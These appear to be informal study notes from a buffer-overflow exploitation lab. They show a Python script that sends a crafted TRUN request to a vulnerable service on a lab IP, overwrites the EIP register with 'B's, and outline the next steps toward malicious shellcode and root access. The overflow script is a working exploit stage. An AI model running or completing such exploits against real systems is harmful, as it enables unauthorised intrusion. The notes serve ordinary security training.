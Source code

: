 Will gedit the fuzz_2.py and do the following changes. 
We are replacing the offset with the shellcode and the shellcode is nothing but A's and B's right now but it's gona get malcious in a Minute.

>[!question] :Why sending 2003 A's ?_?
Cuz that's where the EIP starts (i.e.e By 2004 the EIP starts)
Remember A's are 41 and B's are 42

Python:
#!/usr/bin/python
import sys,socket 

shellcode = "A" * 2003 + "B" * 4

try:
		s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
		s.connect(('192.168.205.135',9999))
		
		s.send(('TRUN /.:/' + shellcode))
		s.close()
except:
		print "Error Connnecting To The Server"
		sys.exit()

┌──(root㉿kali)-[/home/kali]
└─# ./fuzz_2.py    



As we can see our B's were landed on the EIP so now only some couple of Housing keeping things are left like 
Finding Bad Character's
And Finding the Right Module

After this will generate some shellcode and will point the EIP to that return address that gonna be malicious and than we are gonna get Root access.

![[Pasted image 20230825151651.png]]
